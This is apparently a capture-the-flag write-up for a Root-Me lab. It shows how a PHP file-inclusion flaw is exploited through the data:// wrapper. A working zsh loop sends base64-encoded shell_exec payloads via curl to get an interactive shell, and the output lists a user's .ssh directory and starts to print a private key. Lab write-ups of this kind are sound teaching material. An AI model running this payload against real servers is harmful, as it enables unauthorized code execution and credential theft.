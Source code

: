 Poking around shows quickly that the rendering is done with a inclusion of file, via the `page` `GET` parameter:

{% highlight bash %}
http://ctf01.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
{% endhighlight %}

We can even include non-`PHP` file:

{% highlight bash %}
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=style.css
{% endhighlight %}

We tried a [two](https://github.com/wireghoul/dotdotpwn) [exploits](https://www.exploit-db.com/exploits/23170/) on this inclusion, but none worked...

Then we discovered that we could use [data:](http://php.net/manual/en/function.include.php#102731) with the `include` function.

The [first example](http://php.net/manual/en/wrappers.data.php) worked on the URL:

{% highlight bash %}
data://text/plain;base64,SSBsb3ZlIFBIUAo=
{% endhighlight %}

We created a bash script to handle this:

{% highlight zsh %}
while printf "\n> "; read line; do;
    curl -s `
        printf "http://ctf06.root-me.org/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data:text/plain;base64,"
        printf "<?php echo shell_exec('$line'); ?>" | base64
    ` |\
    tr '\n' '\r' | sed -e "s@.*<div id=\"content\">@@g" -e "s@</div>.*@@g" | tr '\r' '\n'
done;
{% endhighlight %}

Now we have a _shell_ access to the server.

{% highlight bash %}
> ls -la /home/mauk
total 28
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
-rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
-rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh

>  ls -la /home/mauk/.ssh/
total 20
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 ..
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 authorized_keys
-rw-r--r--. 1 mauk mauk 1679 Feb 24  2013 id_rsa
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 id_rsa.pub

> cat /home/mauk/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity

> cat /home/mauk/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----